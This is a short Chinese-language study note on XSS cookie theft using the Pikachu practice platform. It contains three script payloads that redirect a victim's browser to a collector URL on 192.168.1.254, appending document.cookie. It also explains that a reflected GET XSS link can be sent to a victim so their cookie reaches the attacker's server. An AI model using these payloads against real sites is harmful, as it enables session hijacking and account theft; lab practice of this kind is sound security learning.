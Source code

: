 xss平台

根据微软Secure Windows Initiative小组的高级安全项目经理Michael Howard的说法，大多数XSS攻击的目的都是盗窃cookie。

获取用户的cookie然后发送到xss后台
可以使用pikachu自带的xss后台 也可以搭建自己的xss后台 github上有开源的


<script>document.location='http://192.168.1.254/pikachu/pkxss/xcookie/cookie.php?cookie='+document.cookie;</script>

<script>document.location = 'http://192.168.1.254/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>

<script>document.location='http://192.168.1.254/pkxss/xcookie/cookie.php?cookie='+document.cookie;</script>


Pikachu-XSS漏洞之cookie值获取、钓鱼结果和键盘记录实战记录
https://www.cnblogs.com/li2019/p/12650512.html

一开始觉得这种反射型的xss有啥用？
后来一想就明白了 反射性的xss有get/post的
对于get类型的 我们可以给受害者发送一个链接啊 
恶意的xss就存放在这个链接里面 然后受害者点击之后 他的cookie就会发送到攻击者的服务器上了

